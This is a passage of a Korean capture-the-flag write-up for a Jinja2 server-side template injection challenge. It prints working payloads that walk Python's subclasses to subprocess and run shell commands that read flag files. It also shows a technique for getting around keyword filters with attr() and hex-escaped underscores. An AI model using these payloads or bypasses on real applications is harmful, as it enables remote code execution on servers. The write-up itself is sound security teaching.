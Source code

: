 ```python
[Request]
{% raw %}{{().__class__.__base__.__subclasses__()[233]('cat flag.txt',shell=True,stdout=-1).communicate()[0].strip()}}{% endraw %}

[Response]
lv2 = (b'level3 -> https://d9063b8995859d9226027f66f0d7b2b0.imreplay.com/
server2(lv3) -> https://d69d3706249a30f0ef365b8b5887e5481eb64242.imreplay.com/')
```

level3

---

필터링이 생각보다 많이 걸려있는 문제입니다. 적용된 필터링 키워드는 다음과 같습니다.

```python
filtering = ["config","os","open","finalflag","decode","self","_",'"',".","request","[","]","join","%"]
```

문제의 출제 의도는 `_` 문자 필터링을 jinja2 템플릿 문법을 사용하여 우회할 수 있는지에 대한 문제였습니다.

[](https://jinja.palletsprojects.com/en/2.10.x/templates/#attr)

![](https://cdn.jsdelivr.net/gh/SaturnX-Korea/saturnx-korea.github.io/assets/post/HSPACE%20CTF%20THE%20ZERO%20Write-up%2091ac8e6fcfa64ea3ba4259919f19470e/Untitled%205.png)

해당 문제는 jinja 템플릿에서 사용할 수 있는 Builtin Filters 중 attr() 필터를 사용하여 풀이할 수 있습니다.

_ 대신 '\x5f'를 사용한 후 attr() 필터를 적용하면

`().__class__` 를`()|attr('\x5f\x5fclass\x5f\x5f')` 와 같이 사용할 수 있습니다.

이후부터는 level2와 동일한 방법으로 접근하여 풀이할 수 있습니다.

```python
[Request]
{% raw %}{{()|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()}}{% endraw %}

[Response]
lv3 = ([<class 'type'>, <class 'weakref'>, <class 'weakcallableproxy'>, <class 'weakproxy'>, <class 'int'>, <class 'bytearray'>, <class 'bytes'>, <class 'list'>, <class 'NoneType'>, <class 'NotImplementedType'>, <class 'traceback'>, <class 'super'>, <class 'range'>, <class 'dict'>, <class 'dict_keys'>, <class 'dict_values'>, <class 'dict_items'>, <class 'dict_reversekeyiterator'>, <class 'dict_reversevalueiterator'>, <class 'dict_reverseitemiterator'>
...
```

```python
[Request]
{% raw %}{{()|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(233)('cat final*',shell=True,stdout=-1)|attr('communicate')()|attr('\x5f\x5fgetitem\x5f\x5f')(0)}}{% endraw %}

[Response]
lv3 = (b'hspace{g00d_go0d_s3rver_S1de_Temp14te_InJection!!}\n')
```
